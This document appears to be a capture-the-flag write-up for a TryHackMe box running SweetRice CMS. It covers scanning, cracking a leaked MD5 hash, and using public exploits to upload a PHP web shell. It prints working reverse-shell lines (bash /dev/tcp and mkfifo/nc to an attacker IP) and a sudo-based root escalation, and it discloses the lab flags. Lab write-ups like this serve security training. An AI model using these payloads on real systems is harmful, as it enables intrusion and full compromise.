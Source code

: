 Have some fun! There might be multiple ways to get user access.

# What is the user flag?

Start with an nmap scan
`nmap -sS -Pn -p- -T4 -vv 10.10.186.242`

We can see SSH and HTTP open

Look more in detail into SSH and HTTP
`nmap -sS -Pn -p 22,80 -T4 -vv 10.10.186.242 -sC -sV`
This reveals SSH OpenSSH 7.2p2 Ubuntu2.8 and HTTP Apache 2.4.18

The website appears to be the Apache default landing page.

Run gobuster
`gobuster dir --url 10.10.186.242 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40`

This finds a `/content/` path that shows it is running Basic-CMS Sweet Rice.

Looking at the source we can see some JS files referenced.

Run gobuster on the `/content/` directory
`gobuster dir --url 10.10.186.242/content/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40`

We see a number of directories
`/images` images for loading, favicon, etc
`/js` contains the javascript mentioned earlier
`/inc` contains a number of PHP files, and a mysql backup
`/as` is a logon page
`/_themes` is a default theme
`/attachment` is empty

Looking at the source of the logon page, we see the following:
```
	var query = new Object();
	query.user = escape(user);
	query.passwd = passwd;
	query.rememberMe = rememberMe;
	_.ajax({
		'type':'POST',
		'data':query,
		'url':'./?type=signin',
		'success':function(result){
				if (typeof(result) == 'object'){
					_('#signTip').html(result['statusInfo']);
					if (result['status']==1){
						location.href = _('#returnUrl').val()?_('#returnUrl').val():'./';
					}
				}
		}
	});
```

The request is a POST request to ?type=signin

Trying the url `/content/as/?type=signin` we get a JSON response
```
status	0
statusInfo	"Login failed"
```


I couldn't work out how to use that, however looking at the MYSQL backup in /content/inc/ we can see a password revealed.  It looks to be an MD5 hash.

`hashcat -a 0 -m 0 hash.txt rockyou.txt` gave the password as `Password123`
The username is `manager` (also found the in SQL backup).  This lets us into the web interface, but not SSH.

Based on the information on the `/content/` page we need to set the site to running.  Lets do that by clicking `Running`

Navigating to `/content/` we see it is now active.

Looking for further details, i found https://www.exploit-db.com/exploits/40700.  Perhaps we can use this to get a remote shell.  I modified the code to be 
`<form action="http://10.10.156.105/content/as/?type=ad&mode=save" method="POST" name="exploit">` for my target IP and the directory structure.
I ran the exploit then looked at the `/inc` page.  The Ads folder was created, but nothing in it.  I ran it again, and the `hacked.php` file appeared.

I modified the file to be
```html
<html>
<body onload="document.exploit.submit();">
<form action="http://10.10.156.105/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="shell"/>
<textarea type="hidden" name="adv">
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"10.4.18.254"/8081 0>&1'");?>
&lt;/textarea&gt;
</form>
</body>
</html>
```
The IP is my attackbox IP, port 8081.  I also changed the file name from `hacked.php` to `shell.php`
However when I ran this code, a reverse shell didn't appear, and the uploaded .php file didn't have the expected code.

Found a different exploit https://www.exploit-db.com/exploits/40716 for arbitrary file upload.

Saved the `.py` file, and then created a `shell.php` file containing
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/"10.4.18.254"/8081 0>&1'");
?>
```

Execute the Python code, with URL of `10.10.156.105/content`, username `manager`, password `Password123` and we see it is a successful upload.

When we navigate to `/content/attachments` the file isn't there.
I attempted to upload a file directly through the Media Center (`/content/as/?type=media_center`) options which says it was successful, but it didn't appear.

I renamed the `shell.php` to `shell.php5` and attempted an upload using the exploit and it was successfully uploaded and visible in `/content/attachments`

There is some file format filtering in place.  Unfortunately the file contents are empty.
Attempted crazy case file extensions, null terminated, no change.

I created a webshell using the exploit earlier (https://www.exploit-db.com/exploits/40700) by adding `<?php echo system($_GET['command']); ?>` and was able to run commands via `/content/inc/ads/hacked.php?command=whoami`

we are running as `www-data` from `/var/www/html/content/inc/ads`
`/content/inc/ads/hacked.php?command=ls%20/home` shows we are running as `itguy`

`/content/inc/ads/hacked.php?command=cat%20/home/itguy/user.txt`
Answer: `THM{63e5bce9271952aad1113b6f1ac28a07}`

# What is the root flag?

`/content/inc/ads/hacked.php?command=cat%20/home/itguy/mysql_login.txt`
`rice:randompass`

`/content/inc/ads/hacked.php?command=cat%20/home/itguy/backup.pl`
`#!/usr/bin/perl system("sh", "/etc/copy.sh"); system("sh", "/etc/copy.sh");`

`/content/inc/ads/hacked.php?command=cat%20/etc/copy.sh`
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f`

``/content/inc/ads/hacked.php?command=sudo%20-l`
`Matching Defaults entries for www-data on THM-Chal: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin User www-data may run the following commands on THM-Chal: (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl`


Looking at the web interface, you can paste custom code into the ads section.  I used https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php and saved it as revshell
Navigating to `/content/?action=ads&adname=revshell` spawned a reverse shell.

looking at `/etc/copy.sh` it is indeed writable, nano doesn't work, vim is not installed, even vi is not installed.
From `/etc/`
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.18.254 5554 >/tmp/f" > copy.sh`

Back to `/home/itguy/` and run
`sudo /usr/bin/perl /home/itguy/backup.pl` and we get a reverse shell on 5554


`cat /root/root.txt`
Answer: `THM{6637f41d0177b6f37cb20d775124699f}`